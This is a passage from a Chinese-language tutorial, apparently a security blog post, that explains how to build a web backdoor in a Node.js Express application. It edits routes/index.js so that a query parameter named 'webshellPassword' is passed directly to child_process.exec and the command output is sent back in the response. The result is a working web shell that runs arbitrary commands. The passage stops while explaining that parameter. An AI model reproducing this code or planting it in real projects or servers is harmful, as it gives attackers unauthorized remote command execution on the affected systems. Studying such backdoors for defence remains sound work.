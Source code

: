 0x03 web通信后门
============

* * *

上节说道使用telnet通信当做后门，那么现在我们来说一说web通信后门。

这里是使用了express框架吗，玩过NodeJs的人都知道，基本是NodeJs必装框架。

安装express框架请自行百度。

首先我们建立一个网站目录用于存放后面程序。

express node如图：

![p10](http://drops.javaweb.org/uploads/images/193eaa247a71fa332935556f9ad64d81900c410d.jpg)

```
cd node && npm install

```

完成后，基本就OK了。现在我们进入到routes目录。修改index.js文件。

```
vim router/index.js

```

![p11](http://drops.javaweb.org/uploads/images/2e6017e7364d37511418d5b3f04fa9c7ffc6eede.jpg)

这是之前的index.js代码，现在我们来修改它。

在第三行加入代码：

```
var exec = require('child_process').exec;

```

删除第6行代码，修改为：

```
exec(req.query.webshellPassword,function(error,stdout){
    if(error !== null){
        res.send(error);
        return false;
    }
    res.send(stdout);
});

```

基本和上一节的telnet通信后门代码差不多。只是出现了如下代码：

```
req.query.webshellPassword

```
